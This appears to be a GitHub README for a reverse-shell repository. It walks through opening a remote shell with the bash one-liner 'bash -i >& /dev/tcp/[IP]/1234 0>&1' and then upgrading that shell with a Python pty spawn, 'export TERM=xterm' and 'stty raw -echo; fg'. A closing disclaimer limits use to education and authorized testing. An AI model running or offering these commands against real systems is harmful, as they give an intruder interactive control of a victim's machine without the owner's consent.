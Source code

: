 Reverse Shell Connection Attempt
This repository contains a script that attempts to establish a reverse shell connection to a specified local IP address. The script is written in Bash and Python and utilizes some additional settings and commands to spawn an interactive shell.

Instructions
Replace [##Your Local IP Address##] with your actual local IP address. This is the IP address where you want to establish the reverse shell connection.

Run the following command in your terminal to initiate the reverse shell connection:

bash -c 'bash -i >& /dev/tcp/[##Your Local IP Address##]/1234 0>&1'
Note: Make sure to replace [##Your Local IP Address##] with your actual IP address.


Additionally, you can use Python to spawn an interactive shell by running the following command:

python3 -c 'import pty;pty.spawn("/bin/bash")'
This command imports the pty module in Python and spawns a new interactive shell using /bin/bash.


To ensure proper terminal functionality, set the TERM environment variable to xterm using the following command:

export TERM=xterm
This step is important to maintain proper terminal settings during the reverse shell session.


Finally, set the terminal settings to raw mode and disable echo by running the following command:

stty raw -echo; fg
This command configures the terminal to handle raw input and disable echo, allowing for a smoother interactive experience. The fg command brings the backgrounded process to the foreground.


Disclaimer
Please note that the use of reverse shell connections can have legal and ethical implications. This script is intended for educational purposes or authorized testing only. Ensure that you have proper authorization before attempting to establish reverse shell connections.